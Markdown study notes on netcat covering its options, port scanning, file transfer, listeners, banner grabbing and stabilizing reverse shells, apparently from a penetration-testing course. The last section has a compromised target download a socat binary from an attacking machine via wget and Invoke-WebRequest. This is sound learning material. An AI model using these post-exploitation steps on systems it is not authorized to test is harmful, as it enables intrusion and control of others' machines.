 Netcat is a networking tool that's used for reading from and writing to network connections using TCP or UDP

* Can function as a client that connects to a listening port
* Can function as a server that listens on a port of your choice

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Options

| Netcat Option | Purpose |
| --- | --- |
| -l | Listen mode |
| -p | Specify the port number (Port numbers less than 1024 require root privileges to listen on) |
| -n | Numeric only (No resolution of hostnames via DNS) |
| -v | Verbose output |
| -vv | Very verbose output |
| -k | Keep listening after a client disconnects from the port |

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Operations

## Port Scanning 

Netcat allows you to scan for open ports on a target system

```Bash
nc -zv <hostname> <port_range>
```

## File Transfer 

Netcat allows you to send and receive files between two hosts

```Bash
# From sender's machine
nc -lp <port_number> < <file_to_send>

# From receiver's machine
nc <hostname> <port_number> > <file_to_receive> 
```

## Chatting

Netcat allows you to create a simple chat server between two hosts

```Bash
# From listening machine
nc -lp <port_number>

# From connecting machine
nc <hostname> <port_number>
```

## Port Listening (Netcat as a Server)

Netcat allows you to listen on a specific port for incoming connections

```Bash
nc -lvnp <port_number>
```

## Banner Grabbing (Netcat as a Client)

Netcat allows you to fetch information from services running on open ports

```Bash
nc <hostname> <port_number>
```

## Proxying

Netcat allows you to simply use it as a simple network proxy

```Bash

```

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Shell Stabilization

* Non-interactive by default
* Very unstable by default (Ex: *Pressing CTRL + C kills the whole thing*) due to netcat shells being processes running inside a terminal, rather than being bonafide terminals 

## Netcat Shell Stabilization Using Python

```Bash
# 1. Spawn a better featured shell using Python
python -c 'import pty;pty.spawn("/bin/bash")'

# 2. Give yourself access to term commands
export TERM=xterm

# 3. CTRL + Z to background the shell

# 4. Turn off our own terminal echo and then foreground the shell
stty raw -echo; fg

# 5. Return your own terminal back to normal
reset
```

## Netcat Shell Stabilization Using rlwrap

```Bash
# 1. Install rlwrap
sudo apt -y install rlwrap

# 2. Use rlwrap to invoke a slightly different listener
rlwrap nc -lvnp <port_number>
```

* rlwrap gives us access to history, tab autocompletion, and the arrow keys immediately upong receiving a shell (Some manual stabilisation may be required if you want to be able to use CTRL + C inside the shell)
* Particularly used when dealing with Windows shells since they're usually difficult to stabilise

## Netcat Shell Stabilization Using Socat

```Bash
# 1. Create a webserver on the attacking machine inside the directory containing your socat static compiled binary
sudo python3 -m http.server 80

```Bash
# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
wget <attacking_machine_address>/<socat_static_compiled_binary_file> -O /tmp/socat
```

```PowerShell
# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
Invoke-WebRequest -uri <attacking_machine_address>/<socat_static_compiled_binary_file>.exe -outfile C:\\Windows\temp\socat.exe
```

* Limited to Linux targets (Socat shells on Windows are usually no more stable than a netcat shell)
